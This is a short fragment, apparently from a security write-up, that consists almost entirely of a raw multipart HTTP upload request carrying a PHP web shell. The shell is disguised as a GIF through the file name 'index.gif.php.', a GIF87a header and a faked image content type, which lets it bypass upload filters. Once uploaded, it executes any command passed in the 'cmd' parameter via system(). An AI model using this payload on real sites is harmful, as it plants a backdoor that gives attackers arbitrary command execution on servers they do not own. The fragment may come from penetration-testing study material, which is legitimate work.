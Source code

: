 ```http
U55EcHxTJCO0cvMScKzD20VSsKYd9oLV8lNhKtn9
------WebKitFormBoundaryyqgqevjtjeuKysRj
Content-Disposition: form-data; name="upload"; filename="index.gif.php."
Content-Type: image/jpeg

GIF87a
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

------WebKitFormBoundaryyqgqevjtjeuKysRj--
```

![image](imgs/shell-upload.png)
